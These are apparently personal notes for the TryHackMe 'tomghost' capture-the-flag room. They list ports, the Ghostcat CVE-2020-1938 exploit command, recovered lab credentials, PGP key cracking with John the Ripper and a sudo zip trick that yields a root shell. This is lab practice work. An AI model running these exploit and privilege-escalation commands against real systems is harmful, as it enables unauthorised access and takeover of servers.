 # IP
10.10.169.107

# Ports
8009    AJP
8080    TomCat
53      DNS
22      SSH

# Vulns
2020-1938 - TomGhost

# Exploit 
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487
cd Ghostcat-CNVD-2020-10487
python .\ajpShooter.py http://10.10.169.107:8080 8009 WEB-INF/web.xml read

# Credentials
skyfuck:8730281lkjlkjdqlksalks

# Diagonal Privesc 
.\gpg2john.exe D:\CTF\TryHackMe\tomghost\privesc\tryhackme.asc > D:\CTF\TryHackMe\tomghost\privesc\tryhackme_hash

john --wordlist=/mnt/d/Pentest/SecLists/Passwords/Leaked-Databases/rockyou.txt tryhackme_hash

john --show tryhackme_hash

``passphrase: alexandru``

gpg --import tryhackme.asc
gpg --decrypt.pgp

``merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j``

# Horizontal Privesc
sudo -l

``(root : root) NOPASSWD: /usr/bin/zip``

TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF